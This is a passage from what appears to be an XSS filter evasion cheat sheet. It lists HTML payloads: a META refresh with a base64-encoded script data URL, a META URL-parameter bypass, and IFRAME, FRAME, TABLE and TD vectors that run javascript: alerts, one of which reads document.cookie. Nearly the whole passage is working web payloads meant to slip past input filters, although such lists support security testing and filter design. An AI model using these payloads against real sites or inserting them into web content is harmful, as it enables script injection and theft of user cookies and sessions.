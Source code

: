 Directive URL scheme. This is nice because it also doesn't have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

### META with Additional URL Parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

## IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

## FRAME

Frames have the same sorts of XSS problems as iframes

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

## TABLE

```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```
